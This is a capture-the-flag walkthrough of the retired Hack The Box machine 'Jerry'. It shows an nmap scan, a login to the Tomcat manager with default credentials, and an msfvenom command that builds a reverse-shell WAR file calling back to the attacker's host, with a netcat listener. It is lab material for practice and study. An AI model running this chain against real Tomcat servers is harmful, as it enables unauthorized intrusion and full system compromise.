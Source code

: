 ```yaml
---
layout: post
title: "Jerry"
categories: HTB-Walkthrough
---
```


![jerry](/assets/img/jerry/jerry1.png)


Jerry is another OSCP-like box from the HTB 'retired' archive. It's one of the most straight
forward boxes on the list.



<h3>Nmap</h3>

`nmap -sV -Pn --min-rate 10000 10.10.10.95 |tee -a jerry.txt`

```

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

```

Not much appears to be going on! We have a Tomcat server on port 8080; these are usually straight
forward to pwn.

`Apache Tomcat/7.0.88`

Clicking on the `Manager App` button we get a login popup, admin/admin fails, and we are directed
to an error page.

![tomcat-error](/assets/img/jerry/jerry-tomcat-error.png)

It discloses the example creds of tomcat/s3cret.

Trying these creds is successful and we are taken to a manager's dashboard.

<hr width="250" size="6">


We need to upload an evil WAR file containing a reverse shell to gain access to the target.

The first step is to generate one with msfvenom.


<h3>msfvenom</h3>

```

msfvenom -p java/jsp_shell_reverse_tcp -f war lhost=10.10.14.14 lport=443 -o evil.war

```

<hr width="250" size="6">

<h3>Exploit</h3>

Time to upload the war file.

![upload war](/assets/img/jerry/jerry-upload-war.png)

Once uploaded its time to execute the exploit. Make sure a netcat listener is set to 443
`nc -nlvp 443'

To pull the trigger, simply click on /evil in the list.

![execute](/assets/img/jerry/jerry-execute.png)


we get our shell...

![revshell](/assets/img/jerry/jerry-revshell.png)


Its already a shell with System/Administrator privileges, so it's no effort to pick up the flags.

:)


